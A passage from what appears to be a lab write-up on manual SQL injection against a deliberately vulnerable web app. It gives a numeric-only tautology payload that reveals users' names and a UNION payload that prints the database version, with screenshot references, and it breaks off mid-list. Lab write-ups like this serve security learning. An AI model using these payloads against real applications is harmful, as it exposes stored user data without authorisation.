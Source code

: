 - Try inputs that avoid using quotes:
    1. Numeric-only injection:
        ```
        1 OR 1=1
        ```
        This works because it's entirely numeric, so no escaping kicks in.
        - We can see `First name` and `Surname` of the users on the page
        
        - Screenshot of the manual numeric-only injection result:
        
        ![Manual SQLi usernames](./screenshots/sql-injection/manual-sqli-users.jpg)

    2. Try UNION:
        ```sql
        -1 UNION SELECT null, version() --
        ```
        - Shows the DBMS version on the page. 
        - Screenshot of the DBMS version result:
        